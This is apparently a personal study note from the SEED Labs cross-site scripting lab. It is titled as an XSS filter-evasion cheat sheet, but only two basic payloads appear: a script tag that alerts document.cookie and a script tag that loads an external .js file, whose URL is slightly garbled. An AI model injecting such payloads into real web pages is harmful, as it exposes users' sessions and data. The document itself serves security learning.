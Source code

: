 ```yaml
---
title: Meow's CyberAttack - Cross Site Scripting Filter Evasion Cheat Sheet
# author: Grace JyL
date: 2020-09-19 11:11:11 -0400
description:
excerpt_separator:
categories: [10CyberAttack, XSS]
tags: [CyberAttack, XSS, CheatSheet]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


# Cross Site Scripting Filter Evasion Cheat Sheet

[toc]


```
    __∧_∧__    ~~~~~
　／(*´O｀)／＼
／|￣∪∪￣|＼／
　|＿＿ ＿|／

por favor, no lo usar para hacer algo malo
just learning note, please don't use it to do something wrong
kali用得好，监狱进得早，与君共勉

```

---

# SEED Labs – Cross-Site Scripting Attack Lab

## Posting a Malicious Message to Display an Alert Window

```js
// short code
<script>alert(document.cookie);</script>


// long code
<script type="text/javascript"
        src="http网站//www.example.com/myscripts.js">
</script>
// store the JavaScript program in a standalone file
// save it with the .js extension
// refer to it using the src attribute in the <script> tag.
```
